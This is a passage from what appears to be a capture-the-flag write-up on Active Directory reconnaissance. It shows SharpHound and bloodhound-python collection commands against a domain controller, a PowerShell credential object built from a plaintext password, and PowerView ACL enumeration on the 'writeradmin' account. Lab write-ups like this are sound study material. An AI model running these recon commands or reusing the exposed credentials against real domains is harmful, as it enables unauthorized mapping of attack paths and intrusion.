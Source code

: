 ### Bloodhound

To find out what we can do with our account, the first suggestion (which was also an hint) is [Bloodhound](https://github.com/BloodHoundAD/BloodHound). From their README, "BloodHound uses **graph theory to reveal the hidden and often unintended relationships within an Active Directory environment**. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify."

Bloodhound works by (1) collecting data using one of the available [collectors](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors), (2) importing the resulting data to [neo4j](https://neo4j.com/), and then (3) use its GUI to navigate in the connection graph and making more advanced queries.

In our case we used the [SharpHound](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html) to do the initial recon on the DC.

```powershell
PS C:\> Import-module sharphound.ps1
PS C:\> Invoke-BloodHound --CollectionMethod All --DomainController 5x.1xx.206.45 --OutputDirectory C:\temp\
```

This creates a new data dump in `temp` which we can then import to Bloodhound, resulting in something similar to the following image:

<img src="/images/adchall21/userone.png">

If you are stuck in a Linux machine, you can use a [Python port of the SharpHoud](https://github.com/fox-it/BloodHound.py) and follow a similar process:

```bash
$ bloodhound-python -u User1 -p l%^nMv0+A4XYKVgkUseAWe -ns 51.137.206.45 -d oposec.local -c All`
```

We can see by the image that `user1` has `AllExtendedRights` over `writeradmin`. To collect more information about what other users can do over `writeradmin` object, we proceed to enumerated all the **Access Control Policies** (ACL) that apply to `writeradmin` using `Recon/PowerView` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

### PowerSploit

Using most of the tools of PowerSploit requires a `PSCredential` object to be pass as an access `Credential`.

```powershell
PS C:\> [string]$userName = "user1"
PS C:\> [string]$userPassword = "l%^nMv0+A4XYKVgkUseA"
PS C:\> [securestring]$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
PS C:\> [pscredential]$user1credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
```

**Note**: In AD, if we want to find out what a preceding object can do upon another object, we need to enumerate the ACLs of the second.

```powershell
PS C:\> Get-DomainObjectAcl -Identity writeradmin -domain oposec.local -Server 5x.1xx.206.45 -Credential $user1credObject | Out-GridView
```
